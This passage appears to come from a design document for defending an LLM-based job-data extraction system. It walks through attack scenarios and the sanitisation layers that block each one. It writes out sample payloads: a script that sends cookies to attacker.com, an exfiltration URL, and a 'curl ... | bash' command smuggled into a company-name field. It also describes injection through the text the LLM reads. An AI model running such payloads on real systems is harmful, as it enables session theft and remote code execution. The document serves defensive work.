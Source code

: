 **Attack Vector:** XSS payload in job description
```
Job Description: Great opportunity! <script>fetch('https://attacker.com?cookie='+document.cookie)</script>
```

**Defense Layers:**
1. Layer 1: Input sanitization detects `<script>` → Logs warning
2. Layer 2: Prompt instructs LLM to extract data, not execute code
3. Layer 3: Token validation passes (LLM processed authentic prompt)
4. Layer 5: Structure validation passes (valid JSON)
5. **Layer 6: Response sanitization** → Escapes HTML → `&lt;script&gt;...&lt;/script&gt;`

**Result:**
```json
{
  "job_description": "Great opportunity! &lt;script&gt;fetch(...)&lt;/script&gt;"
}
```
✅ **XSS prevented** - Payload rendered as plain text, not executed

---

### Scenario 3: Data Exfiltration via URL

**Attack Vector:** Suspicious URL in skill name
```
Skill Required: Python https://attacker.com/exfil?data=secrets
```

**Defense Layers:**
1. Layer 1: Input passes (no obvious injection pattern)
2. Layer 2: Prompt processes normally
3. Layer 3: Token validation passes
4. Layer 5: Structure validation passes
5. **Layer 6: Response sanitization** → Detects unauthorized URL → Strips it

**Result:**
```json
{
  "skill_name": "Python [URL_REMOVED]"
}
```
✅ **Data exfiltration blocked** - URL removed before database storage

---

### Scenario 4: Command Injection

**Attack Vector:** Shell metacharacters in company name
```
Company: TechCorp; curl http://attacker.com/malware.sh | bash
```

**Defense Layers:**
1. Layer 1: Input sanitization detects shell metacharacters → Logs warning
2. Layer 2: Prompt instructs LLM to extract data only
3. Layer 3: Token validation passes
4. Layer 5: Structure validation passes
5. **Layer 6: Response sanitization** → Strips shell metacharacters
